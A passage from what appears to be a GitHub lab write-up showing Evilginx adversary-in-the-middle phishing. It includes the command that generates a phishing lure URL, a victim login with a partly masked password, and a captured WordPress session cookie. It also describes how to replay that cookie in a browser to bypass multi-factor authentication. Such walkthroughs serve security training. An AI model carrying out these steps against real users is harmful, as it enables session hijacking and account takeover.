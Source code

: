 so now we have a new lure for the hacksmarter phishlet

```
lures get-url 1
```
```
https://khangtran.shop/VzJzLWOQ
```

now login as tony
```
tony:HackSmarterKairos****!
```

<img width="803" height="453" alt="Screenshot 2025-07-24 020050" src="https://github.com/user-attachments/assets/30ac32bc-d1c0-4abb-a015-37f900baf95e" />

Evilginx is serving the REAL website and user's will actually be able to login, but the information gets sent back to the attacker. This is a MITM attack.

To see the tokens/cookies

```
sessions 2
```

<img width="818" height="376" alt="Screenshot 2025-07-24 020503" src="https://github.com/user-attachments/assets/0e8099b9-e5be-4fde-a597-d9954ba2507e" />


```
wordpress_sec_70f0acd5d721bc50354bb466194518b3
```

```
tony%7C1753509619%7CmqrKnqB1rmD2eqY4sAuLGzPGc1H56bVk4fKP5tykm4Q%7Cacc1bfc66309f9fca5044ac7b88b17ea84011e250b51c005adf04ab372d53072
```

By inserting those values into the browser cookies using Developer Tools on the real site's login page, then refreshing the page,
we gain access directly from an incognito Chrome window, effectively bypassing multi-factor authentication (MFA).

<img width="1130" height="621" alt="Screenshot 2025-07-24 021148" src="https://github.com/user-attachments/assets/d3f4bba1-f4d0-4e96-8eb6-33ef3d5f7816" />
